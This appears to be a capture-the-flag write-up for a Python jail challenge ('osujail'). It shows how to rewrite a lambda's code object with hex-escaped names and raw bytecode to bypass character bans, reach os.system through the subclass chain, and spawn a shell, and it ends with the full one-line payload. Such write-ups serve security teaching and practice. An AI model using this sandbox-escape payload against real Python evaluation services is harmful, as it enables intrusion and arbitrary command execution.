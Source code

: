 ## osujail
*Recommended reading for background information if you are unfamiliar with these concepts: [code objects](https://docs.python.org/3/reference/datamodel.html#code-objects), [pyjail payloads](https://davidjwolfe.com/posts/Build_Yourself_In/)*

The idea is to create a lambda function and then update its code object so that it runs your standard pyjail payload:
`().__class__.mro()[1].__subclasses__()[133].__init__.__globals__['system']('sh')`
(subclass 133 is `os.wrap_close`)

Let's look at the code object that we need to replicate:

```py
>>> def f():return ().__class__.mro()[1].__subclasses__()[133].__init__.__globals__['system']('sh')
...
>>> import dis
>>> print(dis.code_info(f))
Name:              f
Filename:          <stdin>
Argument count:    0
Positional-only arguments: 0
Kw-only arguments: 0
Number of locals:  0
Stack size:        2
Flags:             OPTIMIZED, NEWLOCALS, NOFREE
Constants:
   0: None
   1: ()
   2: 1
   3: 133
   4: 'system'
   5: 'sh'
Names:
   0: __class__
   1: mro
   2: __subclasses__
   3: __init__
   4: __globals__
>>> f.__code__.co_code
b'd\x01j\x00\xa0\x01\xa1\x00d\x02\x19\x00\xa0\x02\xa1\x00d\x03\x19\x00j\x03j\x04d\x04\x19\x00d\x05\x83\x01S\x00'
```

We can see that we'll need to change the `co_consts`, `co_names` and `co_code` attributes of the lambda's code object.

First, we create a lambda with the correct co_consts:

```py
(f := lambda: (0, (), 1, 133, '\x73y\x73tem', '\x73h'))
```

Next, we need to update the `co_names` and `co_consts` tuples. We can do this using our code object's [`.replace()` method](https://docs.python.org/3/reference/datamodel.html#codeobject.replace). However, `co_consts` contains 2 o's, which are banned. This means that we'll need to pass a dict in, but we aren't able to create one using `{}` either.

What we can do is use `f.__dict__` and `dict.update`:

```py
f.__dict__.update(
	(
		(
		'c\x6f_name\x73', (
		'__cla\x73\x73__', 'mr\x6f', '__\x73\x75bcla\x73\x73e\x73__', '__init__', '__gl\x6fbal\x73__'
		)
		),
		(
		'c\x6f_c\x6fde',
		b'd\x01j\x00\xa0\x01\xa1\x00d\x02\x19\x00\xa0\x02\xa1\x00d\x03\x19\x00j\x03j\x04d\x04\x19\x00d\x05\x83\x01S\x00'
		)
	)
)
```

Finally, we replace the lambda's code object with our updated one:

```py
f.__setattr__('__c\x6fde__', f.__code__.replace(**f.__dict__))
```

Full payload:

```py
((f := lambda: (0, (), 1, 133, '\x73y\x73tem', '\x73h')),f.__dict__.update((('c\x6f_name\x73',('__cla\x73\x73__', 'mr\x6f', '__\x73\x75bcla\x73\x73e\x73__', '__init__', '__gl\x6fbal\x73__')), ('c\x6f_c\x6fde',b'd\x01j\x00\xa0\x01\xa1\x00d\x02\x19\x00\xa0\x02\xa1\x00d\x03\x19\x00j\x03j\x04d\x04\x19\x00d\x05\x83\x01S\x00'))),f.__setattr__('__c\x6fde__', f.__code__.replace(**f.__dict__)),f())
```
